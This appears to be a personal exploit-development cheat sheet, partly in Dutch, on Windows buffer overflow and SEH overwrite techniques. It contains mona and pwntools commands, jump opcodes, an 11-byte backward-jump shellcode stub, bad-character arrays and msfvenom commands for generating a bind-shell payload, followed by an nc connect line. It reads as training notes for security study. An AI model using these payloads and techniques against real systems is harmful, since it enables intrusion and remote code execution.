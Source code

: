 ### PWN TOOLS pattern create:
```
cyclic 6000
cyclic -l 0x6D616169
```

### Mona pattern_create
```
!mona pc 2500 # lengte van de pattern
Mona pattern_offset
!mona po 42326742 # waarde van EIP
Mona vindt pop pop ret
!mona seh 
!mona seh -cpb '\x00'
Mona egg hunter
!mona egg -t "w00t"
!mona find -type asc -s "w00t"
Jump over nSEH
b"\xeb\x06\x90\x90" # JMP 6 bytes forward

0x00 tot 7F = 0 - 128 vooruit 
0x80 tot FF = 0 - 128 achteruit MAAR ANDERSOM
```
dus 0xFF 1 byte backwards and 0x80 = 128 bytes back


Conditional Jump die altijd waar is over (nSEH)
```
\x75\x08         ; JNZ SHORT [+0x10] = Jump if ZF is not 0
\x74\x06         ; JZ SHORT [+0x8] = Jump if ZF is 0
```

Als je een heel stuk terug wil springen in je buffer kun je de volgende shellcode gebruiken, deze springt 786 bytes terug (let op wel SEH en nSEH er voor uiteraard):
```
"\x59\x59\x59\xfe\xcd\xfe\xcd\xfe\xcd\xff\xe1"   # 11 bytes, pop ecx * 3, dec ch (take 256 from ecx) * 3, jmp ecx
```

The code is shown below, and works based on the fact that after taking the original POP, POP, RETN to jump into the four byte space before the SEH Overwrite, another pointer to the same memory location exists three places down on the stack. We basically get this memory address into the ECX register, decrement the CH register by 1 three times (which has the affect of decreasing ECX by a total of 768 or three times 256 since CH represents the second least significant byte of ECX), and then JUMP to ECX. This moves us back 768 bytes from the location where the original POP, POP, RETN instruction lands, and gives us more than enough space to use most Windows shellcode. At 11 bytes it is also very compact and will fit into very small buffer areas.
```
"\x59\x59\x59\xfe\xcd\xfe\xcd\xfe\xcd\xff\xe1"
```
```
11 bytes
POP ECX \x59
POP ECX \x59
POP ECX \x59
DEC CH \xfe\xcd
DEC CH \xfe\xcd
DEC CH \xfe\xcd
JMP ECX \xff\xe1
```



Bad chars:
```
• 0x00 – is a common string terminator. 
• 0x0a, 0x0d – carriage returns, and line feeds might often be treated as line terminators, especially in software that makes use of HTTP or FTP protocols. 
• 0xff – this byte is often interpreted as EOF (End Of File) .
```

jmp esp zonder mem adres beginnende met 00
```
!mona jmp -r esp -cpb '\x00'
```

“Each time a POP <register> occurs, ESP is moved towards higher addresses by one position (1 position = 4 bytes for a 32-bit architecture). 
 Each time a RET occurs, the contents of the address ESP points at are put in EIP and executed (also ESP is moved, but this is not important here).”

Short jumps
https://thestarman.pcministry.com/asm/2bytejumps.htm

Bind shell
```
msfvenom -p windows/shell_bind_tcp LPORT=12345 -f python -v shellcode -b '\x00' EXITFUNC=thread
nc -vn 127.0.0.1 12345
msfvenom -p windows/shell_bind_tcp LPORT=443 LHOST=192.168.178.31 -f python -v shellcode -b '\x00\x0a\x0d\x20\x25' EXITFUNC=thread
```
  
Mona create bytearray
```
!mona ba -cpb '\x00\x0a\x0d\x20\x25'
  
bad_chars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
bad_chars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
bad_chars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
bad_chars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
bad_chars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
bad_chars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
bad_chars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
bad_chars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
Mona compare
```
!mona compare -f bytearray.bin -a [address where array begins]
!mona compare -f bytearray.bin -a 0180f960
```

 Set a breakpoint on all current SEH Handler function pointers
```
!mona bpseh
```
 
PWN tools
```
from pwn import asm

asm('mov eax, 0') # => '\xb8\x00\x00\x00\x00'
```
 
Truuk voor bijv null byes, wellicht handig
```   
0x00636578 # (\x00cex) 
+ 0x01010101 # Deze tellen er bij op
-------------------------
   0x01646679
```

in assembly dus:
``` 
mov reg, 0x01646676
sub  reg, 0x01010101
push reg # nu staat ie op de stack met de null ;)
```
